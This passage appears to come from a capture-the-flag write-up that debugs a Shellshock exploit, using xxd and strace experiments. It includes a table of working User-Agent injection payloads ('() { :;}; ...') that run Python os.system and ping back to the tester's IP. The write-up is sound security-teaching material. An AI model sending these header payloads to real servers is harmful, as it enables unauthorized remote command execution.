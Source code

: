 I started down a series of experiment until I think I figured out what
was going on.

My first thought was that perhaps Python and `echo` were outputting
different information. At least on my machine this wasn't the case:



    oxdf@parrot$ python3 -c 'print()' | xxd
    00000000: 0a                                       .
    oxdf@parrot$ echo | xxd
    00000000: 0a 



Looking at how each finished didn't show much difference either:



    oxdf@parrot$ strace echo
    ...[snip]...
    write(1, "\n", 1
    )                       = 1
    close(1)                                = 0
    close(2)                                = 0
    exit_group(0)                           = ?
    +++ exited with 0 +++

    oxdf@parrot$ strace python3 -c 'print()'
    ...[snip]...
    write(1, "\n", 1
    )                       = 1
    rt_sigaction(SIGINT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7fd36b83a140}, {sa_handler=0x6402c0, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7fd36b83a140}, 8) = 0
    brk(0xdc5000)                           = 0xdc5000
    exit_group(0)                           = ?
    +++ exited with 0 +++



I started doing experiments to see what the issue could be.

  UA String                                                                                                                           HTTP Code   Pings at tcpdump   Output in Resp
  ----------------------------------------------------------------------------------------------------------------------------------- ----------- ------------------ --------------------------
  `User-Agent: () { :;}; /usr/bin/python3 -c 'import os;os.system("echo")'; /bin/ping -c 1 10.10.14.15`                               200         0                  None
  `User-Agent: () { :;}; /usr/bin/python3 -c 'import os;os.system("/bin/ping -c 1 10.10.14.15")'; /bin/ping -c 1 10.10.14.15`         500         1                  Error
  `User-Agent: () { :;}; /usr/bin/python3 -c 'import os;os.system("echo; /bin/ping -c 2 10.10.14.15")'; /bin/ping -c 1 10.10.14.15`   200         2                  Ping results from Python
  `User-Agent: () { :;}; echo; /usr/bin/python3 -c 'import os; os.system("/bin/ping -c 1 10.10.14.15")'; /usr/bin/id`                 200         1                  Ping results

I noticed pretty quickly that nothing after Python runs. I spent a while
trying to figure out what was weird about Python, but that was the wrong
way to look at it. I eventually tried Perl:
